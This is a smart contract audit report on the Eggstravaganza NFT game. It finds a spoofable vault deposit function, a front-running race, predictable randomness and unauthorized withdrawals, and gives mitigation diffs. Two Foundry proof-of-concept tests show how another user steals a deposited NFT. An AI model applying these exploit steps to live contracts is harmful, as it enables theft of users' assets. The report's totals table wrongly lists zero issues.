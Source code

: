 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>
<div class="full-page">
    <img src="./logo.png" alt="Logo">
    <div>
    <h1> Eggstravaganza Audit Report</h1>
    <h3>Version 1</h2>
    <h3>0xRiz0</h3>
    <h4>Date: April 8th, 2025</h4>
    </div>
    
</div>

</body>
</html>

<!-- report starts here! -->
# `Eggstravaganza Audit Report`

Prepared by:
- Shawn Rizo

Lead Auditor(s):
- Shawn Rizo

Assisting Auditors:
- None

<div style="page-break-after: always;"></div>

# Table of Contents
- [`Eggstravaganza Audit Report`](#eggstravaganza-audit-report)
- [Table of Contents](#table-of-contents)
- [About Shawn Rizo](#about-shawn-rizo)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
- [Protocol Summary](#protocol-summary)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Spoofed Depositor via depositEgg()](#h-1-spoofed-depositor-via-depositegg)
    - [\[H-2\] Predictable Randomness in `EggHuntGame`](#h-2-predictable-randomness-in-egghuntgame)
  - [Medium](#medium)
    - [\[M-1\] Non-Atomic Deposit Flow in EggHuntGame](#m-1-non-atomic-deposit-flow-in-egghuntgame)
    - [\[M-2\] Unauthorized Withdrawals via Poisoned Depositor Mapping](#m-2-unauthorized-withdrawals-via-poisoned-depositor-mapping)

<div style="page-break-after: always;"></div>


# About Shawn Rizo

I am a seasoned Smart Contract Engineer, adept at utilizing agile methodologies to deliver comprehensive insights and high-level overviews of blockchain projects. Specialized in developing and deploying decentralized applications (DApps) on Ethereum and EVM compatible chains. Expertise in Solidity, and security auditing, leading to a significant reduction in vulnerabilities through the strategic use of Foundry and Security Tools like Slither and Aderyn.

# Disclaimer

The Riiz0 team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

The findings described in this document correspond the following commit hash:
```
f83ed7dff700c4319bdfd0dff796f74db5be4538
```

## Scope 

```
src/
├── EggHuntGame.sol       // Main game contract managing the egg hunt lifecycle and minting process.
├── EggVault.sol          // Vault contract for securely storing deposited Egg NFTs.
└── EggstravaganzaNFT.sol // ERC721-style NFT contract for minting unique Egg NFTs.
```

# Protocol Summary 

EggHuntGame is a gamified NFT experience where participants search for hidden eggs to mint unique Eggstravaganza Egg NFTs. Players engage in an interactive hunt during a designated game period, and successful egg finds can be deposited into a secure Egg Vault.

## Roles

Actors:
    - Game Owner: The deployer/administrator who starts and ends the game, adjusts game parameters, and manages ownership.
    - Player: Participants who call the egg search function, mint Egg NFTs upon successful searches, and may deposit them into the vault.
    - Vault Owner: The owner of the EggVault contract responsible for managing deposited eggs.

# Executive Summary
## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 2                      |
| Medium   | 2                      |
| Low      | 0                      |
| Info     | 0                      |
| Gas      | 0                      |
| Total    | 0                      |

# Findings
## High
### [H-1] Spoofed Depositor via depositEgg()

**Summary:** The `EggVault` contract allows arbitrary users to register themselves as depositors of NFTs by calling the public `depositEgg(uint256 tokenId, address depositor)` function. Since this function does not enforce that the depositor is the actual sender of the NFT, it is vulnerable to spoofing and front-running.

**Vulnerability Details:** The vault assumes that whoever calls `depositEgg()` is the legitimate depositor. In practice, anyone can call this function and register any address as the depositor, even after someone else has already transferred the NFT to the vault. This breaks the trust model of deposit and ownership.

**Impact:**
- Anyone can register themselves as depositor and steal NFTs deposited by others.
- Legitimate owners lose the ability to withdraw their assets.
- Causes permanent asset loss and trust violations in the vault contract.

**Proof of Concept:**
```javascript
       function testSpoofedDepositorExploit() public {
        // Mint an egg by simulating a call from the game contract.
        vm.prank(address(game));
        bool success = nft.mintEgg(alice, 1);
        assertTrue(success);
        // Check that token 1 is owned by alice.
        assertEq(nft.ownerOf(1), alice);
        // Verify that the totalSupply counter increments.
        assertEq(nft.totalSupply(), 1);

        //Transger egg to vault
        vm.prank(alice);
        nft.approve(address(vault), 1);
        vm.prank(alice);
        nft.transferFrom(address(alice), address(vault), 1);

        // Deposit the egg into the vault.
        vm.prank(bob);
        vault.depositEgg(1, bob);
        // The egg should now be marked as deposited.
        assertTrue(vault.isEggDeposited(1));
        // The depositor recorded should be alice, but the vault allows for anyone to input depositor
        assertEq(vault.eggDepositors(1), bob);

        // Depositing the same egg again should revert.
        vm.prank(alice);
        vm.expectRevert("Egg already deposited");
        vault.depositEgg(1, alice);
    }
```

```bash
Ran 1 test for test/EggHuntGameTest.t.sol:EggGameTest
[PASS] testSpoofedDepositorExploit() (gas: 176345)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.60ms (896.43µs CPU time)
```

**Recommended Mitigation:** 
- Remove the depositEgg() function.
- Implement the IERC721Receiver interface in the vault.
- Register depositor inside onERC721Received using the from parameter.

```diff
-   function depositEgg(uint256 tokenId, address depositor) public {
-       require(eggNFT.ownerOf(tokenId) == address(this), "NFT not transferred to vault");
-       require(!storedEggs[tokenId], "Egg already deposited");
-       storedEggs[tokenId] = true;
-       eggDepositors[tokenId] = depositor;
-      emit EggDeposited(depositor, tokenId);
-   }

+   function onERC721Received(
+     address operator,
+     address from,
+     uint256 tokenId,
+     bytes calldata data
+   ) external override returns (bytes4) {
+     require(msg.sender == address(eggNFT), "Not from expected NFT");
+     require(!storedEggs[tokenId], "Egg already deposited");
+
+     storedEggs[tokenId] = true;
+     eggDepositors[tokenId] = from;
+
+     emit EggDeposited(from, tokenId);
+
+     return this.onERC721Received.selector;
+   }
```

Then, users can deposit their NFTs securely via the EggHuntGame Function `depositEggToVault`:

```javascript
eggNFT.safeTransferFrom(msg.sender, address(vault), tokenId);
```

```javascript
function onERC721Received(
    address operator,
    address from,
    uint256 tokenId,
    bytes calldata
) external override returns (bytes4) {
    require(msg.sender == address(eggNFT), "Not from expected NFT");
    require(!storedEggs[tokenId], "Egg already deposited");

    storedEggs[tokenId] = true;
    eggDepositors[tokenId] = from;

    emit EggDeposited(from, tokenId);

    return this.onERC721Received.selector;
}
```
Then, users can deposit their NFTs securely via:

```javascript
eggNFT.safeTransferFrom(msg.sender, address(vault), tokenId);
```

### [H-2] Predictable Randomness in `EggHuntGame`

**Summary:** The `EggHuntGame` contract utilizes on-chain data to generate random numbers for the `searchForEgg` function. This approach is susceptible to manipulation by miners or validators, leading to unfair outcomes.

**Vulnerability Details:** In the `searchForEgg` function, randomness is derived using the following line:
```javascript
uint256 random = uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, msg.sender, eggCounter))) % 100;
```
This method combines `block.timestamp`, `block.prevrandao`, `msg.sender`, and `eggCounter` to produce a pseudo-random number. However, both `block.timestamp` and `block.prevrandao` are controlled by miners or validators, making them exploitable. Malicious actors could manipulate these values to influence the randomness in their favor.

**Impact:**
- **Manipulated Game Outcomes**: Miners or validators can adjust block variables to increase their chances of finding an egg, leading to unfair advantages.
- **Erosion of Trust**: Players may lose confidence in the game's fairness, affecting user engagement and the contract's reputation.

**Recommended Mitigation:**
- **Implement Chainlink VRF**: Utilize Chainlink's Verifiable Random Function (VRF) to generate secure and unpredictable random numbers. Chainlink VRF provides cryptographic proofs that ensure the randomness is tamper-proof and verifiable on-chain.

- **Modify `searchForEgg` Function**: Integrate Chainlink VRF into the `searchForEgg` function to request and retrieve random numbers securely. This ensures that the egg-finding mechanism is fair and resistant to manipulation.

By adopting Chainlink VRF, the `EggHuntGame` can enhance its security and provide a trustworthy gaming experience for all participants.

## Medium
### [M-1] Non-Atomic Deposit Flow in EggHuntGame

**Summary:** The `EggHuntGame.depositEggToVault()` performs an NFT transfer using `transferFrom()` followed by a call to `vault.depositEgg()`. This 2-step process introduces a non-atomic flow that can be front-run or interrupted, and results in the same vulnerability described in the spoofed depositor issue.

**Vulnerability Details:** Using `transferFrom()` followed by a separate `depositEgg()` call exposes the contract to a frontrunning attack. An attacker can monitor the mempool, observe the `transferFrom()` transaction, and quickly call `depositEgg()` before the original owner, registering themselves as the depositor.

This combination of `transferFrom()` + `depositEgg()` replicates the spoofing issue and results in loss of ownership rights.

**Impact:**
- Race condition between NFT transfer and deposit registration.
- Users could lose access to their own NFTs.
- High likelihood of spoofing in public mempool environments.

**Recommended Mitigation:**
```diff
/// @notice Allows a player to deposit their egg NFT into the Egg Vault.
function depositEggToVault(uint256 tokenId) external {
    require(eggNFT.ownerOf(tokenId) == msg.sender, "Not owner of this egg");
    // The player must first approve the transfer on the NFT contract.
-   eggNFT.transferFrom(msg.sender, address(eggVault), tokenId);
-   eggVault.depositEgg(tokenId, msg.sender);
+   eggNFT.safeTransferFrom(msg.sender, address(eggVault), tokenId);
}
```
- Remove both the `transferFrom()` and external `vault.depositEgg()` calls.
- Replace with a single `safeTransferFrom()` call.
- Let the vault handle depositor registration via `onERC721Received()`.
- This guarantees atomic transfer + tracking, preventing spoofing and frontrunning.

### [M-2] Unauthorized Withdrawals via Poisoned Depositor Mapping

**Summary:** The `EggVault` relies on a mapping `eggDepositors`[tokenId] to authorize NFT withdrawals. This mapping is set via the vulnerable `depositEgg()` function, and can be manipulated by attackers to enable unauthorized withdrawals.

**Vulnerability Details:** By spoofing the depositor registration via `depositEgg()`, an attacker can later call `withdrawEgg()` and pass the `eggDepositors[tokenId] == msg.sender` check. This bypasses actual ownership and results in unauthorized withdrawals.

**Impact:**
- Attackers can withdraw NFTs they never owned.
- True owners are locked out.
- Funds can be permanently stolen.

**Proof of Concept:**
```javascript
function testUnauthorizedWithdrawalsExploit() public {
        // Mint an egg by simulating a call from the game contract.
        vm.prank(address(game));
        bool success = nft.mintEgg(alice, 1);
        assertTrue(success);
        // Check that token 1 is owned by alice.
        assertEq(nft.ownerOf(1), alice);
        // Verify that the totalSupply counter increments.
        assertEq(nft.totalSupply(), 1);

        //Transger egg to vault
        vm.prank(alice);
        nft.approve(address(vault), 1);
        vm.prank(alice);
        nft.transferFrom(address(alice), address(vault), 1);

        // Deposit the egg into the vault.
        vm.prank(bob);
        vault.depositEgg(1, bob);
        // The egg should now be marked as deposited.
        assertTrue(vault.isEggDeposited(1));
        // The depositor recorded should be alice, but the vault allows for anyone to input depositor
        assertEq(vault.eggDepositors(1), bob);

        // Depositing the same egg again should revert.
        vm.prank(alice);
        vm.expectRevert("Egg already deposited");
        vault.depositEgg(1, alice);

        // Withdrawal by someone other than the original depositor should revert.
        vm.prank(alice);
        vm.expectRevert("Not the original depositor");
        vault.withdrawEgg(1);

        // Correct withdrawal by the depositor.
        vm.prank(bob);
        vault.withdrawEgg(1);
        // After withdrawal, alice should be the owner again.
        assertEq(nft.ownerOf(1), bob);
        // The stored egg flag should be cleared.
        assertFalse(vault.isEggDeposited(1));
        // And the depositor mapping should be reset to the zero address.
        assertEq(vault.eggDepositors(1), address(0));
    }
```

```bash
Ran 1 test for test/EggHuntGameTest.t.sol:EggGameTest
[PASS] testUnauthorizedWithdrawalsExploit() (gas: 203180)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.38ms (1.64ms CPU time)
```

**Recommended Mitigation:**
- Make `eggDepositors[tokenId] = from` only within `onERC721Received()`.
- Prevent external manipulation of depositor state.
- Remove all public deposit functions.

```diff
-   function depositEgg(uint256 tokenId, address depositor) public {
-       require(eggNFT.ownerOf(tokenId) == address(this), "NFT not transferred to vault");
-       require(!storedEggs[tokenId], "Egg already deposited");
-       storedEggs[tokenId] = true;
-       eggDepositors[tokenId] = depositor;
-      emit EggDeposited(depositor, tokenId);
-   }

+   function onERC721Received(
+     address operator,
+     address from,
+     uint256 tokenId,
+     bytes calldata data
+   ) external override returns (bytes4) {
+     require(msg.sender == address(eggNFT), "Not from expected NFT");
+     require(!storedEggs[tokenId], "Egg already deposited");
+
+     storedEggs[tokenId] = true;
+     eggDepositors[tokenId] = from;
+
+     emit EggDeposited(from, tokenId);
+
+     return this.onERC721Received.selector;
+   }
```
